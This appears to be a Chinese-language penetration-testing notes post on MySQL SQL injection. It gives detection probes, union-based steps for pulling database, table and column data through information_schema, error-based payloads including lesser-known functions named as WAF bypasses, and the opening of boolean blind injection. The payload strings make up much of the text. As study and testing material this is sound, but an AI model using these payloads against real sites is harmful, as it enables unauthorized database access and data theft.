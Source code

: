 ```yaml
---
title: SQL注入
layout: post
background: https://cdnb.artstation.com/p/assets/images/images/007/095/957/large/mark-chang-lab3.jpg
subtitle: 红蓝思路.
artist: artstation.com/antoinecolligsq
---
```


[TOC]

# sql注入

sql是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。

<br/>

==只要功能点和数据库交互的地方都有能存在SQL注入==

<br/>不同的数据库有不同注入语句,以下以mysql为例

<br/>

## 数据库中的关键库,表,字段.

information_schema库
SCHEMATA表
字段: SCHEMA_NAME
TABLES表
字段:TABLE_SCHEMA TABLE_NAME
COLUMNS表
字段:TABLE_SCHEMA	TABLE_NAME COLUMN_NAME

<br/>

## 根据数据类型划分

#### 整型注入（不需要闭合，不一定需要注释） 建议每次都加注释	

#### 字符串类型注入（需要闭合，或者需要注释）

##### 如何判断

第一种	

and 1=1   和 and 1=2 



第二种 

+1和-1	(一般建议用-1 加号部分浏览器会将其转译为空格)



第三种

' <&nbsp>"		(通过报错信息可得知闭合条件)	



第四种

and  sleep(5)	(通过是否延迟判断)



# 根据注入的类型分类

### 可联合查询注入

#### 常用命令

union	必须包含相同的列数
order by 查看列数
limit 一个一个打印出来
group_concat()	一次性全部打印
--+	代表注释	也可用%23

<br/>

#### 注入流程

1.判断注入类型

and 1=2  判断是整型还是字符型

'"	字符型的话通过报错信息查看如何闭合



2.判断列数 以列数为3为例

order by  列数



3.使用占位符 	--查看回显点

union select 1,2,3



4.查看数据库名

union select  database(),...



5.爆库,获取表名

union select  1,2,group_concat(table_name)	from information_schema.tables  where table_schema='数据库名' --+



6.爆表,获取字段名

union select 1,2, group_concat(column_name)	from  information_schema.columns  where table_schema='数据库名' and table_name='表名' --+

7.获取字段值

union select  1,group_concat(字段名),group_concat(字段名) from 表名 --+

<br/>



### 报错注入

有显示位和报错信息时可用

#### 常用函数

ceil() 		向上取整
floor()		向下取整
rand()		取随机值
substring()/substr()/mid()	截取字符串	(字符串,从第几位开始,截取几位)
left()	截取字符串	(字符串,从第一位截取几位)

<br/>

#### 报错函数

1.floor()

select count(*),concat((payload),floor(rand(0)*2))x from users group by x --+

2.extractvalue()

and extracvalue(1,concat(0x7e,payload(),0x7e))--+

3.updateXML()

and UpdateXML(1,concat(0x7e,(payload),0x7e)),1)

补充:	常见的报错函数可能会被waf拦截,以下为比较冷门的报错函数

1.ST_LatFromGeoHash()
and ST_LatFromGeoHash(concat(0x7e,(payload),0x7e))--+

2.ST_LongFromGeoHash()
and ST_LongFromGeoHash(concat(0x7e,(payload),0x7e))--+

3.ST_Pointfromgeohash()
and ST_Pointfromgeohash(concat(0x7e,(payload),0x7e),1)--+

<br/>

#### 注入流程

1.判断注入类型 -- 字符型闭合

2. and(select 1 from (select count(*),concat(concat(payload),floor(rand(0)*2))x from information_schema.tables group by x)y)--+

payload为需要获取内容的脚本,依次填入爆库,表,字段,字段值语句

<br/>



### 布尔注入

优点：不需要显示位，也不需要出错信息。
缺点:	速度慢，耗费大量时间。

#### 常用函数

length()	获取长度

ascii()/ord()	返回ascii码

exists()	检测是否查询成功

regexp  '?'	查看是否匹配,结果返回1或0

like '?'	查看是否匹配(全称),结果返回1或0

#### 检测语句

1.判断mysql版本是否大于 5.0	或结果返回为0 	即可直接使用堆叠注入

and exists(select from information_schema.tables)--+

2.判断数据库个数

and (select count(table_schema) from information_schema.tables) > ?  --+

#### 注入流程

1.判断第一个库的第一个字母

and	(select ascii(substr((select schema_name from
information_schema.SCHEMATA limit 0,1),1,1)))>? --+

后面就是慢慢调.

